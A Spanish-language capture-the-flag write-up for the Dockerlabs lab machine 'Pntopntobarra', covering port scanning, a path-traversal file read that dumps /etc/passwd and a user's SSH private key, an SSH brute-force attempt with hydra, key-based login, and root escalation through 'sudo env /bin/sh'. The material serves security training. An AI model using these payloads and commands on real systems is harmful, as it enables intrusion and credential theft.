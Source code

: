 # 🖥️ Writeup - Pntopntobarra 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip pntopntobarra.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh pntopntobarra.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-15 16:05 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000038s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 2e:4a:72:a0:b2:40:3a:36:99:c9:2d:a7:62:61:16:e7 (ECDSA)
|_  256 7c:7d:78:7a:20:2b:d0:75:92:26:1b:41:3c:ca:79:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: Advertencia: LeFvIrus
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.90 seconds
```

Tenemos abiertos los puertos `22` y `80`.

Accedemos por `HTTP` y observamos una página de advertencia de virus con dos botones.

![alt text](../images/virus.png)

El primer botón ejecuta un `script` que bloquea la máquina por completo, obligándonos a reiniciarla.

Si pulsamos el segundo botón, aparece el siguiente mensaje:

![alt text](../images/ejemplos.png)

Está intentando mostrar una imagen que no existe. Lo confirmamos observando la URL.

```
http://172.17.0.2/ejemplos.php?images=./ejemplo1.png
```

# LFI

Podemos aprovechar esto para intentar apuntar a otro archivo local del sistema, como `/etc/passwd`, modificando la URL.

```
http://172.17.0.2/ejemplos.php?images=../../../../etc/passwd
```

Info:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
nico:x:1000:1000:,,,:/home/nico:/bin/bash
```

De esta manera, comprobamos que existe un usuario llamado `nico`.

# FUERZA BRUTA

Probamos un ataque de `fuerza bruta` sobre el puerto `22` (`SSH`) con dicho usuario.

```bash
hydra -l nico -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 64
```

Pero no obtenemos ninguna coincidencia.

Aun así, sabemos con certeza que `nico` es un usuario válido del sistema. Es posible que únicamente pueda acceder por `SSH` mediante una clave `id_rsa`.

# LFI

Aprovechamos de nuevo la vulnerabilidad `LFI` para comprobar si podemos apuntar al archivo `id_rsa` (en caso de que exista), lo cual nos daría acceso por `SSH` al usuario `nico`.

```
http://172.17.0.2/ejemplos.php?images=../../../../home/nico/.ssh/id_rsa
```

Info:
```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

Efectivamente, logramos obtener la clave `id_rsa`, que guardamos en un archivo en la máquina atacante.
A continuación, accedemos al sistema como el usuario `nico`.

```bash
sudo nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa nico@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for nico on f7d1835da2a8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User nico may run the following commands on f7d1835da2a8:
    (ALL) NOPASSWD: /bin/env

```

Comprobamos que podemos ejecutar el binario `env` con privilegios de `root` y lo aprovechamos para escalar de la siguiente manera:

```bash
sudo env /bin/sh
```

Info:
```
# whoami
root
#
```
Ya somos root!